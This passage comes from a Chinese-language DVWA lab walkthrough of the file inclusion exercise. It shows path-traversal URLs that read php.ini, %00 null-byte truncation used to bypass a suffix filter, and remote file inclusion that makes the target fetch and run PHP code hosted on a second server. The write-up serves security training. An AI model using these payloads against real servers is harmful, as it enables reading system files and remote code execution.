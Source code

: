     成功读取了服务器的 php.ini 文件

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=file4.php`

- **构造url(相对路径)**

    `http://<IP地址!!!>/dvwa/vulnerabilities/fi/page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini`

    加这么多 ../ 是为了保证到达服务器的C盘根目录,可以看到读取是成功的.

    ![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa19.png)

    同时我们看到,配置文件中的 Magic_quote_gpc 选项为 off.在 php 版本小于 5.3.4 的服务器中,当 Magic_quote_gpc 选项为 off 时,我们可以在文件名中使用 %00 进行截断,也就是说文件名中 %00 后的内容不会被识别,即下面两个 url 是完全等效的.

    1. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini

    2. http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=../../../../../../../../../phpStudy/PHPTutorial/WWW/DVWA/php.ini%0012.php

    使用 %00 截断可以绕过某些过滤规则,例如要求 page 参数的后缀必须为 php,这时链接 A 会读取失败,而链接 B 可以绕过规则成功读取.

**远程文件包含**

当服务器的 php 配置中,选项 allow_url_fopen 与 allow_url_include 为开启状态时,服务器会允许包含远程服务器上的文件,如果对文件来源没有检查的话,就容易导致任意远程代码执行.

在远程服务器 B 上传一个 phpinfo.txt 文件,内容如下
```php
<?php

phpinfo();

?>
```

构造url `http://<IP地址!!!>/dvwa/vulnerabilities/fi/?page=http://<服务器B IP地址!!!>/phpinfo.txt`

成功在服务器上执行了 phpinfo 函数

![](../../../../../assets/img/Security/RedTeam/Web安全/靶场/dvwa/dvwa20.png)
